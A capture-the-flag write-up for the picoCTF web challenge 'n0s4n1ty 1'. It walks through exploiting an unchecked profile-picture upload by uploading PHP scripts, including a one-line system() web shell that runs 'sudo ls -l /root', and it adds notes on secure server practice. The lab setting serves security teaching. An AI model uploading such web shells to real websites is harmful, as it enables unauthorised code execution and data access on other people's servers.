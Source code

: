 ```yaml
---
tags:
    - picoCTF
    - web-exploitation
---
```


# n0s4n1ty 1

"A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory."

## Reading the challenge hints

- no sanity; likely no input sanitisation
- focus is the upload functionality
- difficulty of the challenge is basic; so don't expect this to be too complex
- process we are given to follow:
    1. locate file upload area
    1. Find flag in `/root`

## Research

- [LMGTFY](https://letmegooglethat.com/?q=web+hacking+file+uploads+not+sanisiting)
- [likely hit](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/)

So maybe the site may not check file upload type, and allow us to upload executable content to the server

!!! note "Security practice tip!"

    A secure web server will check file extension and file type and block unapproved types!.

## Testing the idea

### Test a file upload of a txt file

Create a php file to test our theory with content like the following. Save it with a `.php` expension

```php
<?php
// Get the current working directory
$currentDirectory = getcwd();
// Display the current working directory
echo "The present working directory is: " . $currentDirectory;
?>
```

Response looks good! `The file cwd.php has been uploaded Path: uploads/cwd.php`



Now browse there...
Success! It printed our working directory - we have code execution in the context of the web server!

This looks something like the following:

```mermaid
sequenceDiagram
    client->>server: uploads file
    server->>client: ok, and heres where it went!
    client-)server: can i see my file pls?
    server-->>client: sure!
    server-->>client: its executable, ok i will execute it...
    server->>client: here's my response

```

## Now can we just list /root?

Lets mak a php script to list a directory; from bing ai code generator:

```php
<?php
$directory = '/root';
foreach (new DirectoryIterator($directory) as $fileInfo) {
    if (!$fileInfo->isDot()) {
        echo $fileInfo->getFilename() . PHP_EOL;
    }
}
?>
```

Hmm, no permissions

## Ok sudo list me root

Lets try this as a system call...with sudo.

!!! note "Security practice tip!"

    A secure web server will block system calls in the php config.

!!! note "Security practice tip!"

    For sudo to work, the web server user will have been added to sudoers.
    That is not normal. If not, we would need some means to privilege escalate

```php
<?php
system('sudo ls -l /root'); // Replace 'ls -l' with your desired command
?>
```

Success!

Ok now try and get the contents of the flag yourself!